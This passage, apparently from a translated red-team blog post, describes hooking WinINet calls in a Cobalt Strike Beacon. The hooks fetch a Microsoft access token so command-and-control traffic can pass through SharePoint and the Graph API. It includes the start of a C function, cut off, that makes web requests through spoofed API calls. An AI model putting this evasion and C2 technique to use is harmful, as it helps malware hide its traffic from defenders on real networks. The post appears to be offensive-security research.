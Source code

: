 [![](assets/1710899993-518ba9df08d24bbafbede8dc603140ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240302221156-d3c6e4aa-d89e-1.png)

实际上，当 Beacon 开始其 http-get 循环并调用我们提到的四个 WinINet API 时，在其中一个函数被钩住时，我想向 login.microsoft.com 发起一个完全独立的网络请求，以获取访问令牌。在研究我应该在哪里尝试实现这个功能时，我注意 HttpOpenRequestA 将 Beacon 的 http-get 请求的 URI 作为参数。该 URI 需要引用 SharePoint 中的一个唯一文件，我们将使用 Graph API 访问该文件。我们需要访问令牌才能使用 Graph API，因此我们必须尝试在此处发出 "外带" 网络请求。

我编写了一个函数 "MakeWebRequest"，以方便在项目的其他地方使用这种技术：

```plain
SECTION( D ) LPVOID MakeWebRequest(HANDLE hInternet, 
                                    PVOID site, 
                                    PVOID uri, 
                                    PVOID verb, 
                                    PVOID headers, 
                                    PVOID content, 
                                    struct MemAddrs* pMemAddrs)
{
    LPVOID lpResult = NULL;

    // Connect to site
    HINTERNET hSite = ( HINTERNET )SPOOF( pMemAddrs->Api.net.InternetConnectA, 
                                           pMemAddrs->Api.net.hNet, 
                                           pMemAddrs->Api.net.size, 
                                           hInternet, 
                                           site, 
                                           C_PTR( U_PTR( INTERNET_DEFAULT_HTTPS_PORT ) ), 
```
